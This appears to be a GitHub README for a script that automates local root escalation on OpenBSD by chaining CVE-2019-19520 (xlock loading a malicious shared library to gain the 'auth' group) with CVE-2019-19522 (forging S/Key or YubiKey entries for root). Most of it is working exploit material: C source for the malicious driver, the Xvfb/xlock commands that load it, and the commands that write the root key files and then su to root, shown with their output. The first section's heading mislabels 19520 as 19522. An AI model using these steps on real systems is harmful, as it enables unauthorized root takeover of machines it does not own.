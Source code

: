 # Openbsd-Privilege-Escalation
A Script that automates the process of escalating privileges on openbsd system (CVE-2019-19520)  by exploiting the xlock binary and againing it's sgid and escalating to the root user by (CVE-2019-19522) exploiting the privileges of auth group and adding keys to the Skey or Yubikey


The C code is pretty much a copy of the original poc from: https://www.openwall.com/lists/oss-security/2019/12/04/5






CVE-2019-19522: Local privilege escalation via S/Key and YubiKey
==============================================================================

On OpenBSD, /usr/X11R6/bin/xlock is installed by default and is
set-group-ID "auth", not set-user-ID; the following check is therefore
incomplete and should use issetugid() instead:

------------------------------------------------------------------------------
101 _X_HIDDEN void *
102 driOpenDriver(const char *driverName)
103 {
...
113    if (geteuid() == getuid()) {
114       /* don't allow setuid apps to use LIBGL_DRIVERS_PATH */
115       libPaths = getenv("LIBGL_DRIVERS_PATH");
------------------------------------------------------------------------------

A local attacker can exploit this vulnerability and dlopen() their own
driver to obtain the privileges of the group "auth":

------------------------------------------------------------------------------
$ id
uid=32767(nobody) gid=32767(nobody) groups=32767(nobody)

$ cd /tmp

$ cat > swrast_dri.c << "EOF"
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
EOF

$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c

$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[1] 2706

$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66

$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)


Now we have obtained the group - auth's privileges, we can now exploit the privileges by adding our own root keys to Skey or Yubikey


CVE-2019-19522: Local privilege escalation via S/Key and YubiKey
==============================================================================

If the S/Key or YubiKey authentication type is enabled (they are both
installed by default but disabled), then a local attacker can exploit
the privileges of the group "auth" to obtain the full privileges of the
user "root" (because login_skey and login_yubikey do not verify that the
files in /etc/skey and /var/db/yubikey belong to the correct user, and
these directories are both writable by the group "auth").

(Note: to obtain the privileges of the group "auth", a local attacker
can first exploit CVE-2019-19520 in xlock.)

If S/Key is enabled (via skeyinit -E), a local attacker with "auth"
privileges can add an S/Key entry (a file in /etc/skey) for the user
"root" (if this file already exists, the attacker cannot simply remove
or rename it, because /etc/skey is sticky; a simple workaround exists,
and is left as an exercise for the interested reader):

------------------------------------------------------------------------------
$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)

$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root

$ chmod 0600 /etc/skey/root

$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password: EGG LARD GROW HOG DRAG LAIN

# id
uid=0(root) gid=0(wheel) ...
------------------------------------------------------------------------------

If YubiKey is enabled (via login.conf), a local attacker with "auth"
privileges can add a YubiKey entry (two files in /var/db/yubikey) for
the user "root" (if these files already exist, the attacker can simply
remove or rename them, because /var/db/yubikey is not sticky):

------------------------------------------------------------------------------
$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)

$ echo 32d32ddfb7d5 > /var/db/yubikey/root.uid

$ echo 554d5eedfd75fb96cc74d52609505216 > /var/db/yubikey/root.key

$ env -i TERM=vt220 su -l -a yubikey
Password: krkhgtuhdnjclrikikklulkldlutreul

# id
uid=0(root) gid=0(wheel) ...
